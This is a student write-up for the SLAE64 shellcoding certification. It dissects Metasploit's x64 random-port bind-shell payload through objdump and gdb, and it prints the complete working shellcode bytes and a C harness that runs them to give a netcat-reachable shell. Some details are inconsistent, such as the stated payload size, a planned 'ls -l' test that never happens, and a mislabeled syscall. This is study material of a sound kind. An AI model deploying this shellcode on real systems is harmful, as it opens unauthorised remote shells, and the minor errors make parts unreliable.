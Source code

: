 ## Assignment #5.1: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `execve` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct
As i don't understand why no values are assigned to RSI and RDX in the code, a further read of the `accept()` man page, clarifies everything:
```c
...
When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
...
```
This mean that this two registers can be set to 0x00. Let's understand what the code does:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    al,0x2b     <== Syscall number for accept()
=> 0x0000555555558079 <+25>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
RSI and RDX already got the NULL (`0x00`) value at instructions at +16 and + 18. Let's review the values of the registers before the syscall:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x2b                43
rdi            0x3                 3
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
Good, the expected values. The syscall can be executed, and will return a socket descriptor in RAX. 

#### Section 4: `sys_dup2`
From the `dup2()` manpage:
```c
int dup2(int oldfd, int newfd);
```
This said, register values for this call have to be:
- RAX for the syscall number, 0x21
- RDI for the old socket descriptor. Has to be the value returned in RAX for the previous `accept` syscall
- RSI for new file descriptor to duplicate the old descriptor. Will be the file descriptor for `stdin`, `stdout`, and `stderr`. 

> Ass the `accept()` will pause the program until a connection is received, a `netcat` connection is done from another terminal. Still while debugging, the program wont work as expected because no `dup2()`and no `execve()` been done yet. 

Reviewing the code:
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) stepi
0x000055555555807d in code ()
(gdb) stepi
0x000055555555807f in code ()
(gdb) stepi
0x0000555555558081 in code ()
(gdb) stepi
0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi         <== RDI has the socket descriptor from `socket` call (that's "3")
   0x000055555555807c <+28>:	pop    rsi         <== RSI <- Socket descriptor
   0x000055555555807d <+29>:	xchg   rdi,rax     <== RDI <- Socket descriptor for the `accept`. This is the 
   0x000055555555807f <+31>:	dec    esi         <== RDI = RDI - 1
   0x0000555555558081 <+33>:	mov    al,0x21     <== Syscall Number for `dup2`
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>   <== Jumps to +31 to `dup2()` another new file descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
The code simply places the old file descriptor into RDI, and the new one into RSI. The `jne` at +37 jumps back to +31, that decrements the value for RSI to duplicate another new file descriptor. New file descriptors will be duplicated in this order: `stderr`("2"), `stdout`("1") and then `stdin`("0"). When RSI value is "0", then the jump is not done and the program continues the flow.
To check that register valuesare correct before the syscall, let's place a breakpoinit at the +35 just before executing the syscall to be able to review it the 3 times it's called. Also at +39 `push rdx` after the duplication code to stop once it's done:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rdi rsi rax
rdi            0x4                 4
rsi            0x2                 2
rax            0x21                33
(gdb) b *0x0000555555558083
Breakpoint 2 at 0x555555558083
(gdb) b *0x0000555555558087
Breakpoint 3 at 0x555555558087
(gdb) 
```
In the first loop to duplicate `stderr`, RAX has to be 0x21, RDI has to be "0x04", and RSI has to be "0x02". Let's check:
```asm
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x2                 2
(gdb) 
```
Let's `continue` execution. It will do the jump, do the operations, and again before executing the syscall. This is loop 2 to duplicate `stdout`, hence values for registers must be "0x21" for RAX, "0x04" for RDI and "0x01" for RSI:
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x1                 2
(gdb) 
```
If `continue` again, will jump to +31 again for the duplication of `stdin`. Here the values have to be RAX to "0x21", RDI keeps the "0x04" value, and RSI updates to "0x00". 
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x0                 0
(gdb) 
```
Awesome. Everything as it should. Now let's `continue` the program, and this time won't jump and will stop at +39, ending the `dup2` section:
```asm
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558087 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 5: `sys_execve`

From the `execve` manpage:
```c
int  execve  (const  char  *filename,  
              const  char *argv [], const char
              *envp[]);
```
Also reviewing the code for this section in `gdb`, there is an hex value (`0x68732f6e69622f2f`) at +40 that ends being pushed in the stack at +50. Let's see what this value is:
```python
>>> "68732f6e69622f2f".decode('hex')[::-1]
'//bin/sh'
>>> 
```` 
This means that `execve` will execute the hardcoded command `//bin/sh`. And this defines values for the registers as follows:
- RAX: Syscall number, "0x3b"
- RDI: The memory address for the `//bin/sh` string
- RSI: The pointer to the memory address containing the address of the parameters. As no parameters are needed or used, simply gets the NULL value "0x00"
- RDX: NULL value, "0x00"
The Stack Technique is used, hence will need to review the values pushed in the stack before the syscall and the registers contents. `stepi`'ing and following the code, and stop just before the syscall:

```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED__**
=> 0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
End of assembler dump.
(gdb) stepi                                        <== Executes push rdx
0x0000555555558088 in code ()
(gdb) x/xg $rsp
0x7fffffffe750:	0x0000000000000000                 <== RDX is Pushed. RDX had 0x00 value from +3
(gdb) stepi                                        <== Executes movabs rdi,"//bin/sh"
0x0000555555558092 in code ()
(gdb) stepi                                        <== Pushes String to Stack. Executes push rdi
0x0000555555558093 in code ()
(gdb) x/s $rsp                                     <== Check top of the stack
0x7fffffffe748:	"//bin/sh"                         <== The string is in the stack
(gdb) stepi                                        <== Pushes the address of //bin/sh string into 
0x0000555555558094 in code ()                       == the stack. Executes push rsp
(gdb) stepi                                        <== RDI <- @ //bin/sh string. Executes pop rdi
0x0000555555558095 in code ()
(gdb) stepi
0x0000555555558097 in code ()
(gdb) 
```
Now the **RIP** is pointing to the `syscall` instruction. Let's stop here. The stack contents for what's been just debuged should be:
```asm
  Stack Address          Stack Content        
|------------------|------------------------|
|  0x7fffffffe748  |   "//bin/sh"           | 
|  0x7fffffffe750  |   0x0000000000000000   |
|-------------------------------------------|
```
Let's check that's ok:
```asm
(gdb) x/2xg $rsp
0x7fffffffe748:	0x68732f6e69622f2f	0x0000000000000000
(gdb) 
```
Hence, RSI should have the **`0x7fffffffe748`** as per the instruction executed at +52:
```asm
(gdb) info registers rdi
rdi            0x7fffffffe748      140737488349000
(gdb) x/s $rdi
0x7fffffffe748:	"//bin/sh"
(gdb) 
```
And RSI and RDX should have NULL values as no parameters are passed to the function:
```asm
(gdb) info registers rsi rdx
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
#### The End 
Ok, all looks as it was expected. After `stepi` into the syscall, the shell will be spawned in our `netcat` session that we had to open to continue debugging in the previous sections:
```asm
(gdb) stepi
process 1513 is executing new program: /usr/bin/dash
(gdb) 
```
With the expected results:

<img src="https://galminyana.github.io/img/A052_Shellcode_End.png" width="75%" height="75%">

> However, didnt came this following question to you? Where is the code to generate the random port number? This is answered below

### Thoughts
---
From this analysis, some tricks been learned:

- No need to use the `sys_bind` syscall. As the code did not use it, researched about why not being used, and came up with a comment at StackOverflow. There are some posts that says that if a TCP or UDP socket is being used, the kernel will automatically bind the socket to a suitable port number. **This also the way that the payload uses to generate the random port!**. As the kernel defines a random port and binds it to the connection, the code to create a random port is not needed and reduces considerably the shellcode size.
- When using the `sys_accept`, no value it returns in the sockaddr struct will be used. Researching reading the man page further, in the thirth paragraph of the Description section, says that _"When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL."_. Not having to do all this work saves us time and shellcode size.
- When the command to be executed by `sys_execve` does not have any parameter, the second and thirth parameter can be NULL. Then only the command is executed without parameters.
- The use of the `mul` instruction to initialize to "0x00" the value of RAX and RDX registers at the same time.

With this learnings, will have to review the payloads created in the [Assignment01](Assignment01) and [Assignment02](Assignment02) applying this learned techniques to make their shellcode size reduced.

### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_02.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_02.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/shell_bind_tcp_random_port` shellcode.
- [Shellcode_02.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_02.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
